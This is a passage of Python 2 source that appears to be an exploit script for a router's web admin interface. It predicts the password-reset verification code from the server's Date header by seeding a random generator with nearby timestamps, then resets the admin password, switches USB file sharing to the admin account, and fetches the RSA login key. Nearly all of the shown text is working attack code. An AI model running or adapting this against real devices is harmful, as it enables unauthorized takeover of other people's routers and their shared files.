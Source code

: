 ```python
		}
		r = self.post("login?form=vercode", data)
		if r.status_code != 200:
			print "something went wrong"
			print r.status_code
			print r.text
			exit(-1)

	def resetAdmin(self, time):
		code = utils.random(time, 100000, 999999)

		data = {
			"operation": "write",
			"vercode": code
		}

		json = self.post("login?form=vercode", data).json()
		if json["success"] == True:
			print "Found code %d, admin password reset"%code
			return True
		return False

	def guessCode(self, time):
		if self.resetAdmin(time):
			return True
		else:
			for i in range(time, time+5):
				if self.resetAdmin(i):
					return True

		return False

	def getDate(self):
		r = requests.get(self.url)
		if r.status_code != 200:
			print "something went wrong"
			print r.status_code
			print r.text
			exit(-1)
		dateStr = r.headers["Date"]

		return eut.mktime_tz(eut.parsedate_tz(dateStr))

	def setUsbSharing(self):
		print "Making sure the sharing account is the default account"
		data = {
			"operation": "write",
			"account": "admin"
		}
		json = self.post("admin/folder_sharing?form=account", data).json()
		assert json["success"]

	def getRsaKey(self):
		print "Reading RSA key"
		json = self.post("login?form=login", {"operation":"read"}).json()
		assert json["success"]

		n,e = json["data"]["password"]
		self.key = utils.pubKey(n,e)

	def login(self, username, password):
		if not self.key:
			self.getRsaKey()
```